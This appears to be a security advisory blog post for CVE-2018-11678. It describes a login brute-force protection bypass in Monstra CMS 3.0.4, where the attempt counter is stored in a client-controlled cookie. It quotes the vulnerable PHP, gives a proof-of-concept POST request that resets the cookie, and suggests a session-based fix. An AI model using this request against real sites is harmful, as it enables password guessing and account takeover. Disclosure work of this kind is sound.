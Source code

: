 ```yaml
---
private: 'false'
layout: post
featured: false
published: true
comments: true
modified: 2018-04-01
date: 2018-04-01
title: "Monstra CMS - 3.0.4 Login Rate Limiting Bypass"
tags: [exploit]
mathjax: false
imagefeature: 
description: "Monstra CMS - 3.0.4 Login Rate Limiting Bypass"
chart: null
---
```



CVE-2018-11678
---

- **Exploit Title:** Monstra CMS <= 3.0.4 Login Rate Limiting Bypass
- **CVE:**  CVE-2018-11678
- **Vendor Homepage:** http://monstra.org/
- **Software Link:** https://bitbucket.org/Awilum/monstra/downloads/monstra-3.0.4.zip
- **Discovered by:** Abdillah Muhamad
- **Contact:** abdilah.pb@gmail.com
- **Website:** https://abdilahrf.github.io
- **Category:** webapps
- **Platform:** PHP
 
 
MonstraCMS 3.0.4 Implementing bruteforce protection in login form but we manage to bypass because we can control the cookie value.
 
**Vulnerable Code:** https://github.com/monstra-cms/monstra/blob/dev/plugins/box/users/users.plugin.php

line 396-400:

```php
        if (Cookie::get('login_attempts') && Cookie::get('login_attempts') >= 5) {
            
            Notification::setNow('error', __('You are banned for 10 minutes. Try again later', 'users'));
        } 
```
line 422-427:

```php
        if (Cookie::get('login_attempts') < 5) {
            $attempts = Cookie::get('login_attempts') + 1;
            Cookie::set('login_attempts', $attempts , 600);
        } else {
            Notification::setNow('error', __('You are banned for 10 minutes. Try again later', 'users'));
        }
```
line 437-442:

```php
        if (Cookie::get('login_attempts') < 5) {
            $attempts = Cookie::get('login_attempts') + 1;
            Cookie::set('login_attempts', $attempts , 600);
        } else {
            Notification::setNow('error', __('You are banned for 10 minutes. Try again later', 'users'));
        }
 ```
 
#### Proof of Concept

Steps to Reproduce:
- Always set login_attempts cookie to 0 before send the POST request or if you using burp the cookie will not incrementing.

```
POST /monstra-3.0.4/admin/index.php?id=pages HTTP/1.1
Host: 127.0.0.1
Content-Length: 42
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/66.0.3359.181 Safari/537.36
Cookie: PHPSESSID=lsmo61pd53fe8gnmv77uck0c07; _ga=GA1.1.876410326.1527893558; _gid=GA1.1.716559964.1527893558; login_attempts=i%3A0%3B
Connection: close

login=admin&password=[PASSWORD_HERE]&login_submit=Log+In
```
 
#### Recommended Patch
Don't use cookie since we can easily control the value using Session much better

